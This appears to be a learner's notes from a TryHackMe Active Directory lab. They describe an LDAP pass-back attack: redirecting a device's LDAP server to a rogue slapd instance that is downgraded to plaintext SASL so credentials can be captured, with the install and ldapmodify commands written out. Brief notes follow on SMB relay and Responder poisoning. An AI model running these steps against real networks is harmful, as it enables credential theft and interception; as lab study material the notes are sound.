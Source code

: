 Usually, the credentials for these interfaces are kept to the default ones, such as admin:admin or admin:password. Here, we won't be able to directly extract the LDAP credentials since the password is usually hidden. However, we can alter the LDAP configuration, such as the IP or hostname of the LDAP server. In an LDAP Pass-back attack, we can modify this IP to our IP and then test the LDAP configuration, which will force the device to attempt LDAP authentication to our rogue device. We can intercept this authentication attempt to recover the LDAP credentials.

### Hosting a rogue LDAP server to trick services
Let's intall and configure
```bash
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```
```bash
sudo dpkg-reconfigure -p low slapd
```
- Make sure to press No when requested if you want to skip server configuration
- For the DNS domain name, you want to provide our target domain, which is za.tryhackme.com 
- Use this same name for the Organisation name as well
- Provide any Administrator password
- Select MDB as the LDAP database to use
- For the last two options, ensure the database is not removed when purged
- Move old database files before a new one is created
- Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods. To do this, we need to create a new ldif file, called with the following content
```olcSaslSecProps.ldif 
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```
(The file has the following properties)
1. olcSaslSecProps: Specifies the SASL security properties
2. noanonymous: Disables mechanisms that support anonymous login
3. minssf: Specifies the minimum acceptable security strength with 0, meaning no protection.
- Now we can use the ldif file to patch our LDAP server using the following
```bash
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```
- We can verify that our rogue LDAP server's configuration has been applied using the following command:
```bash
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```
```output
dn:
supportedSASLMechanisms: LOGIN
supportedSASLMechanisms: PLAIN
```
***You will need to sniff packets to retrieve informations***

***Disable the LDAP service***
```bash
sudo systemctl disable --now slapd
```
## Authentication relays
### SMB (Server Message Block 139/445)
- Corporations rarely work with latest versions of services and this can have high consequences
- Some versions allows a human to intercept the NetNTLM Challenge to crack it (=hash)
### LLMNR, NBT-NS, and WPAD
- Responder allows us to perform Man-in-the-Middle attacks by poisoning the responses during NetNTLM authentication, tricking the client into talking to you instead of the actual server they wanted to connect to.  